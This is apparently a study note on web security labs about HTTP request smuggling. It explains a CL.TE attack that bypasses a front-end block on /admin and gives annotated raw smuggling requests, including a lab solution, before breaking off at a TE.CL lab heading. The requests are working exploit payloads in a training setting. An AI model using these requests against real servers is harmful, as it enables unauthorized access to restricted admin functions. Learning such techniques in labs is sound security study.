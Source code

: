 Suppose the current user is permitted to access /home but not /admin. They can bypass this restriction using the following request smuggling attack:
```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```
The front-end server sees two requests here, both for /home, and so the requests are forwarded to the back-end server. However, the back-end server sees one request for /home and one request for /admin. It assumes (as always) that the requests have passed through the front-end controls, and so grants access to the restricted URL. 

### Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

To access admin page:
```
POST / HTTP/1.1
Host: 0aff006004f736a780ce3ac000570006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 94

0


GET /admin HTTP/1.1
Host: localhost
Content-Length: 15
X-Ignore: X

nglong05=hello
```
- Content-length: auto update
- Content-length: one more bytes than the smug actual content-length
- Host: localhost: bypass user not from local
- X-Ignore: X, bypass the first line of the normal request
### Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
